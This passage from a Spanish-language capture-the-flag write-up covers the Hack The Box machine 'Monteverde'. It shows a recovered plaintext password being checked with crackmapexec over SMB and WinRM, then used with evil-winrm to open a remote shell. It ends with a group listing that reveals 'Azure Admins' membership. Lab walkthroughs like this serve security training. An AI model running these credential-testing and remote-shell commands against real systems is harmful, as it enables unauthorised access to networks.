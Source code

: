 El archivo contiene una contraseña valida para el usuario mhope.

```bash
❯ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```

Además podemos conectarlos por WinRM.

```bash
❯ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

Ya tenemos una shell.
```PowerShell
 evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents:
```

Si miramos los grupos a los que pertenecemos podemos darnos cuenta que pertenecemos al grupo "Azure Admins"


```PowerShell
*Evil-WinRM* PS C:\Users\mhope\Documents: whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
